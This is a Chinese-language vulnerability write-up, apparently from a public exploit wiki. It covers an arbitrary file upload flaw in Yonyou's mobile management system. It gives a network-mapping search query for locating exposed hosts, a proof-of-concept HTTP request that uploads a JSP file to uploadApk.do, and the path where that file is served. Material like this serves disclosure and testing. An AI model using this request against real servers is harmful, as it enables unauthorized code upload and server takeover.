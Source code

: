 # 用友 移动管理系统 uploadApk.do 任意文件上传漏洞

## 漏洞描述

用友 移动管理系统 uploadApk.do 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>用友 移动管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-移动系统管理"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1690733969075-570bd9ef-782e-45d7-acf7-b190f55e893b.png)

验证POC

```http
POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"
Content-Type: application/msword

hello
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
```

![img](/assets/PeiQi-Wiki/img/1690734721298-07fdce57-e0e9-4130-8bea-9a5e4aebb19b.png)

```http
/maupload/apk/a.jsp
```